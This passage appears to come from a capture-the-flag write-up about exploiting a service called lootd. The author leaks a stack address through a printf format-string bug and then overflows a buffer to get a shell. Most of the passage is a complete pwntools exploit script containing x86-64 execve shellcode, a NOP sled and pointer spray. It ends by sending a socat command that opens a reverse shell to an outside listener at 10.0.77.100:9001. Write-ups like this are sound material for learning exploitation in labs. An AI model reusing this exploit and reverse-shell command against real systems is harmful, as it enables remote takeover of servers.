 ~~~bash
1. 0x55d932f4f0e7	# crash for string
2. 0xffffffff		# always ffffffff
3. 0			# always 0
4. 0x7ffc56f968d8	# empty string
5. 0			# always 0
6. 0x7ffc56f96b20	# Pointer to MY string! this is where we will drop our exploit
7. 0x55d932f4eaf6	# "xeb\x11H\x8d=Q\x07" ??
8. 0x70252c70252c7025	# Start of string
9. 0x252c70252c70252c	# string continues
~~~
So, by using a leaked stack address from the printf vulnerable code, and the constructing a buffer overflow payload, I was able to the a full blown shell on the server!
Mind you, I used better parts of 3-5 days reading, trying something, reading some more, trying some more, before I understood what I had to to,
not least actually implement it.
~~~python
#!/usr/bin/python3

from pwn import *
# Connect to server
c = remote('cloud-c2-70', 1337)
# read until prompt
c.recvuntil('> ', drop=True)

# Get the pointer to the start of the buffer, stored in leaked_start
probe = b'%p,'*6 \
        + b'%p,' \
        + b'%p,'*20 \
        + b'\n'
c.send(probe)
line = c.recvline()
leaked_start = int(line.split(b',')[5], 16)
log.info('Got pointer to start of buffer.')
# ok now we overflow the buffer
# instead of using a regular padding, we spray the heap with our pointer. we need at least 17 to overflow.
# start with a complete buffer of 400, filled with NOP
strSize = 400
numberOfPtr = 21

shellcode =b"\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62" \
      + b"\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31" \
      + b"\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c" \
      + b"\x58\x0f\x05"
nopSledSize = strSize - len(shellcode) - 4 - (numberOfPtr * 8)
ptr = p64(leaked_start + (numberOfPtr * 8) + int(nopSledSize / 2)) * numberOfPtr
send_str = ptr + (b'\x90'*nopSledSize) + shellcode + b'\n'
log.info('Sending buffer overflow')
c.send(send_str)
# at this point, we now have a shell.
# Instead of doing interactive(), we fire up a reverse shell.
# the lootd daemon is started with socat, so we can use socat to get a descent
# reverse shell. do remember to start the reverse shell listener.
# socat file:`tty`,raw,echo=0 tcp-listen:9001
c.recvuntil('> ', drop=True)
log.info('Got shell access, spawning reverse shell')
c.send(b'socat exec:\'ash -li\',pty,stderr,setsid,sigint,sane tcp:10.0.77.100:9001')
c.close()
~~~
Interesting enough, by using the command download with parameter lootd we get a hexdump of the actual binary file.
I figured out this after I had exploited. I could have used ghidra to reverse the binary and find the vulnerabilities